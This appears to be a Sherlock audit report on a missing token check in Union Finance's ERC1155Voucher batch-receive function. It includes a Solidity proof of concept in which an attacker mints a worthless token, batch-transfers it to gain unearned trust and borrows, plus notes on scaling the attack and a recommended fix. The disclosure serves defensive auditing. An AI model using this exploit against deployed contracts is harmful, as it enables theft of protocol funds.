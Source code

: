 Glorious Licorice Buffalo

High

# Arbitrary ERC1155 Token Transfer Grants Unintended Trust in ERC1155Voucher Contract

## Summary

The ERC1155Voucher contract currently allows anyone to gain unintended trust by transferring arbitrary ERC1155 tokens. This vulnerability stems from the lack of proper token validation in the onERC1155BatchReceived function, enabling malicious actors to exploit the system's trust mechanism and potentially borrow assets.

## Vulnerability Detail

The ERC1155Voucher contract is designed to grant trust based on the ownership of specific ERC1155 tokens. However, the [onERC1155BatchReceived function](https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/7ffe43f68a1b8e8de1dfd9de5a4d89c90fd6f710/union-v2-contracts/contracts/peripheral/ERC1155Voucher.sol#L121-L130) lacks the necessary token validation checks present in the onERC1155Received function. This oversight allows any ERC1155 token to be used to gain trust, regardless of its validity within the system.

The vulnerable code in the ERC1155Voucher contract:

```solidity
    function onERC1155BatchReceived(
        address operator,
        address from,
        uint256[] calldata ids,
        uint256[] calldata values,
        bytes calldata data
    ) external returns (bytes4) { // no check to stop invalid 1155s from granting trust
        _vouchFor(from);
        return bytes4(keccak256("onERC1155BatchReceived(address,address,uint256[],uint256[],bytes)"));
    }
```

This function should check if the incoming token is valid, similar to the onERC1155Received function:

```solidity
    function onERC1155Received(
        address operator,
        address from,
        uint256 id,
        uint256 value,
        bytes calldata data
    ) external returns (bytes4) {
>>      require(isValidToken[msg.sender], "!valid token");
        _vouchFor(from);
        return bytes4(keccak256("onERC1155Received(address,address,uint256,uint256,bytes)"));
    }
```

### Proof of Concept

```solidity
// Attacker creates an arbitrary ERC1155 token
ERC1155 maliciousToken = new ERC1155("https://fake-token-uri.com/{id}");

// Attacker mints a single token
maliciousToken.mint(attacker, 1, 1, "");

// Prepare for batch transfer
uint256[] memory ids = new uint256[](1);
ids[0] = 1;
uint256[] memory amounts = new uint256[](1);
amounts[0] = 1;

// Transfer the token to ERC1155Voucher using safeBatchTransferFrom
maliciousToken.safeBatchTransferFrom(attacker, address(erc1155Voucher), ids, amounts, "");

// Attacker now has unintended trust in the system
uint256 trust = userManager.getVouchingAmount(address(erc1155Voucher), attacker);

// Attacker can now potentially borrow assets
uToken.borrow(attacker, trust);
```

The proof of concept shows a single transfer but the attack could be scaled by:
1. minting a large number of worthless ERC1155 tokens 
2.  transferring one to each of many separate addresses controlled by the attacker
3. directing each address to send the 1155 to ERC1155Voucher using safeBatchTransferFrom


## Impact

The absence of proper token validation in the onERC1155BatchReceived function compromises the integrity of the ERC1155Voucher contract's trust allocation mechanism. Primarily by allowing worthless ERC1155 tokens to grant trust which has value within the system.

Attackers can exploit this to bypass the intended trust granting process, gaining unearned trust within the system without possessing the specifically approved ERC1155 tokens. With ill-gotten trust, malicious actors can potentially access the borrowing features of the protocol, putting the system's assets at risk. The system may approve loans based on this invalid trust, exposing the protocol to financial losses.

Another less likely but unintended impact of this lack of token validation is that any ERC1155 token received by batch transfer will be permanently locked in the contract. This is because the contract has no way to transfer out received ERC1155 tokens.  

## Code Snippet

https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/7ffe43f68a1b8e8de1dfd9de5a4d89c90fd6f710/union-v2-contracts/contracts/peripheral/ERC1155Voucher.sol#L121-L130

## Tool used

Manual Review

## Recommendation

To fix this vulnerability, implement proper token validation in the onERC1155BatchReceived function.

The following modification ensures that only valid tokens will be able to grant trust within the system, it also prevents ERC1155 tokens the ERC1155Voucher is not designed to handle from becoming permanently locked in the contract.

```solidity
function onERC1155BatchReceived(
    address operator,
    address from,
    uint256[] calldata ids,
    uint256[] calldata values,
    bytes calldata data
) external returns (bytes4) {
    require(isValidToken[msg.sender], "!valid token");
    for (uint i = 0; i < ids.length; i++) {
        _vouchFor(from);
    }
    return this.onERC1155BatchReceived.selector;
}
```